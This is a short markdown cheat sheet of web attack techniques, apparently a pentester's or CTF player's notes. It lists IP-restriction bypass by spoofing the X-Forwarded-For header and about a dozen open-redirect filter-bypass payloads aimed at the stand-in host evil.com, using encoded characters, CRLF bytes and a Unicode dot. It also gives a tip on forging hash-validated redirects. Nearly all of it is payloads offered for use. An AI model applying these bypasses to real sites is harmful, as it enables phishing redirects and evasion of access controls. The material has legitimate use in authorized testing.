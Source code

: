 # IP RESTRICTION BYPASS
"X-Forwarded-For" http header with value of needed ip address<br>
IP address spaces reserved for private networks<br>
10.0.0.0        -   10.255.255.255  (10/8 prefix)<br>
172.16.0.0      -   172.31.255.255  (172.16/12 prefix)<br>
192.168.0.0     -   192.168.255.255 (192.168/16 prefix)<br>
# OPEN REDIRECT
Simply try to change the domain<br>
Example: ?redirect=https://example.com --> ?redirect=https://evil.com<br>
Bypass the filter when protocol is blacklisted using //<br>
Example: ?redirect=https://example.com --> ?redirect=//evil.com<br>
Bypass the filter when double slash is blacklisted using \\<br>
Example: ?redirect=https://example.com --> ?redirect=\evil.com<br>
Bypass the filter when double slash is blacklisted using http: or https:<br>
Example: ?redirect=https://example.com --> ?redirect=https:example.com<br>
Bypass the filter using %40<br>
Example: ?redirect=example.com --> ?redirect=example.com%40evil.com<br>
Bypass the filter if it only checks for domain name<br>
Example: ?redirect=example.com --> ?redirect=example.comevil.com<br>
Bypass the filter if it only checks for domain name using a dot %2e<br>
Example: ?redirect=example.com --> ?redirect=example.com%2eevil.com<br>
Bypass the filter if it only checks for domain name using a query/question mark ?<br>
Example: ?redirect=example.com --> ?redirect=evil.com?example.com<br>
Bypass the filter if it only checks for domain name using a hash %23<br>
Example: ?redirect=example.com --> ?redirect=evil.com%23example.com<br>
Bypass the filter using a ° symbol<br>
Example: ?redirect=example.com --> ?redirect=example.com/°evil.com<br>
Bypass the filter using a url encoded Chinese dot %E3%80%82<br>
Example: ?redirect=example.com --> ?redirect=evil.com%E3%80%82%23example.com<br>
Bypass the filter if it only allows you to control the path using a nullbyte %0d or %0a<br>
Example: ?redirect=/ --> ?redirect=/%0d/evil.com<br>
# HASH REDIRECTION
some sites may use hash to identify if redirect link is valid
http://sample.com/?url=https://valid_redirect.com&hash=encrypted_hash_value
just generate hash for needed website
# SOCKETS
Do not forget to emulate user input when sending data(add "\n")<br>
# REQUESTS
Do not forget to create session for cookie saving<br>
